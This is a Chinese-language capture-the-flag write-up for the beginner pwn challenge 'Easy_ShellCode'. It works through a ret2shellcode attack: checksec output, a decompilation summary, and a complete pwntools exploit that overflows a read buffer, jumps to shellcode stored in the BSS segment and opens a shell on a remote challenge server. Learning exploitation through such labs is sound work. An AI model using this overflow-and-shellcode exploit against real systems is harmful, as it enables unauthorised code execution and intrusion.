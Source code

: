 ```yaml
---
title: 基础栈溢出ret2shellcode 写入BSS段
layout: doc
---
```

[[toc]]

## pwntools生成shellcode
```py
from pwn import *
context(os="linux", arch='amd64') # 需要设置，否则64位报错
# 32 bit
shellcode = shellcraft.sh()
shellcode_asm = asm(shellcode)

# 64 bit
shellcode = shellcraft.amd64.sh()
shellcode_asm = asm(shellcode)
```

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 Easy_ShellCode
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file Easy_ShellCode 
Easy_ShellCode: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8a397c2f97ee491b559ba464305c76619d631224, not stripped
                                                                                          
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=Easy_ShellCode 
[*] '/home/kali/win/Downloads/Easy_ShellCode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## IDA反编译源码
![alt text](image-9.png)

![alt text](image-10.png)

发现str是在bss段 可以写入shellcode
read函数 buf 存在缓冲区溢出
获取str地址

## 编写exp
```py
from pwn import *
context(os="linux", arch='i386')
# 32 bit
shellcode = shellcraft.sh()
shellcode_asm = asm(shellcode)

# io = process("./Easy_ShellCode")
io = remote("120.46.59.242",2053)
io.sendline(shellcode_asm)

padding = 0x68 + 4 # 32 bit
shellcode_addr = 0x0804A080

io.sendline(b'a'*padding + p32(shellcode_addr))
io.interactive()
```
> 本地打不通，远程可以，是很正常的~！